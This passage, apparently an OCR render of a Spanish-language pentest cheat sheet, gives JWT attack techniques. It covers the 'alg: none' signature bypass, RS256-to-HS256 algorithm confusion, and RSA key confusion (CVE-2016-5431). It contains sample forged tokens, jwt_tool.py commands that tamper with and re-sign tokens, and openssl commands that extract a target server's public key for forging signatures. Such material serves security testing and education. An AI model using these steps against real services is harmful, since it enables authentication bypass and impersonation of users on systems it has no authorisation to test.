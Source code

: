 Ejemplo:
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJsb2dpbiI6InRpY2FycGkifQ.
```

Deconstruido:
```
{"typ": "JWT", "alg": "none" }.
{"login": "ticarpi"}.
[¡Sin firma!]
```

Establezca `"alg": "none"` sin firma, pero no cambie el payload.

¿La página sigue siendo válida? Si la página es válida, entonces tiene un bypass, y comienza el tampering.
```
$ python3 jwt_tool.py JWT_HERE -X a
```

### Cambio de Algoritmo RS256 a HS256

`RS256` necesita una clave privada para manipular los datos y una clave pública para verificar la autenticidad de la firma. 

Cambiando `RS256` a `HS256`, se fuerza a la aplicación a usar solo una clave para realizar ambas tareas.

De esta manera el flujo de trabajo se convertiría de cifrado asimétrico a simétrico y ahora podemos firmar los nuevos tokens con la misma clave pública.

Es NECESARIO obtener la clave `Public-Key` para este ataque:
```
openssl s_client -connect example.com:443 2>&1 < /dev/null | sed -n '/-----BEGIN/,/-----END/p' > certificatechain.pem
```
```
openssl x509 -pubkey -in certificatechain.pem -noout > pubkey.pem
```

```
python3 jwt_tool.py <JWT> -S hs256 -k public.pem
```

### RSA Key Confusion (CVE-2016-5431)

Este ataque juega con el hecho de que algunas bibliotecas usan el mismo nombre de variable para el secret que firma/verifica el cifrado simétrico `HMAC`, y el secret que contiene la clave pública utilizada para verificar un token firmado por `RSA`.

Al ajustar el algoritmo a una variante `HMAC` (HS256/HS384/HS512) y firmarlo usando la clave pública disponible públicamente, podemos engañar al servicio para que verifique el token `HMAC` usando la clave pública codificada en la variable secreta.

Ejemplo:
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJsb2dpbiI6InRpY2FycGkifQ.I3G9aRHfunXlZV2lyJvWkZO0I_A_OiaAAQakU_kjkJM
```
